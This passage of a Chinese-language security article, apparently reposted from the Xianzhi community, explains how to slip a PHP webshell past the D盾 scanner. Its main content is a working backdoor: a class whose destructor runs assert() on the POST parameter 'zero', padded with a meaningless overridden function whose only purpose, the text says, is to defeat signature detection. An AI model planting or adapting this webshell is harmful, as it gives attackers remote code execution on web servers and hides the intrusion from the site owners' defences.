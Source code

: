 ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyQKbohYV4dZCBfJ9Uf87Cyia72gpu7c6rFJG8ehibI2rg8sgzmYiaLXXxw/640?wx_fmt=png)  
怎么样 是不是很有趣

这里放这堆代码并不是为了真的用它 而是为了过 D 盾的特征查杀 所以放什么函数是无所谓的。

比如这样：

```
<?php

class pure
{
  public $a = '';
  function __destruct(){

    assert("$this->a");
  }
}
$b = new pure;
$b->a = $_POST['zero'];
function mysubstr($a,$b) {
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
    echo "?sasasjajksjka";
}
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyksWyLAQw0ekDZTMZEiakzlkP4b6UrAhyFwXC1FFiabNLAn2kTk6bWQlQ/640?wx_fmt=png)  
这里只介绍了重写 substr 函数 那么其他的函数可以吗 当然可以  

****0x04：写在后面**

只要思想不滑坡 方法总比困难多

作者：pureqh ，来源于先知社区。

公众号

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**